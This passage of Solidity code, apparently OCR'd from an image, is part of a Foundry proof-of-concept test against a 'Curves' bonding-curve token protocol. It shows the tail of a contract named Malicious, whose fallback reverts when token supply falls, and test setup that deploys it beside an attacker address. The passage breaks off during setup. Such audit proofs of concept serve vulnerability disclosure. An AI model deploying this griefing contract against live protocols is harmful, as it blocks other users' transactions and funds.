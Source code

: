 ```solidity

    function buy(uint256 amount) public {
        uint256 price = ICurves(curves).getBuyPriceAfterFee(address(this), amount);
        ICurves(curves).buyCurvesToken{value:price}(address(this),amount);
    }
    fallback(bytes calldata) external payable returns(bytes memory){
        if (locked) {
            uint256 currentSupply = ICurves(curves).curvesTokenSupply(address(this));
            if (currentSupply < lastSupply) {
            revert();
        }
            else {
            return "";
        }
    }
        else {
            return "";
        }
}
}
contract CurvesTest is Test {

    address public owner = makeAddr("owner");
    address public manager = makeAddr("manager");
    address public alice = makeAddr("alice");
    address public bob = makeAddr("bob");
    address public john = makeAddr("john");
    address public attacker = makeAddr("attacker");
    address public treasury = makeAddr("treasury");

    Curves curves;
    CurvesERC20Factory factory;
    FeeSplitter feeSplitter;
    Malicious malicious;





    function setUp() public {
        feeSplitter = new FeeSplitter();
        factory = new CurvesERC20Factory();
        curves = new Curves(address(factory), address(feeSplitter));
        curves.setManager(address(manager), true);
        curves.transferOwnership(address(owner));
        feeSplitter.transferOwnership(address(owner));

        vm.startPrank(manager);
        curves.setMaxFeePercent(2e17);
        curves.setExternalFeePercent(5e16, 0, 1e17);
        vm.stopPrank();

        vm.startPrank(owner);
        feeSplitter.setCurves(Curves(curves));
        feeSplitter.setManager(address(curves),true);
        curves.setProtocolFeePercent(5e16, payable(treasury));
        vm.stopPrank();

        vm.deal(alice, 100e18);
        vm.deal(bob, 100e18);
        vm.deal(john, 100e18);
        malicious = new Malicious{value:10e18}(address(curves));

```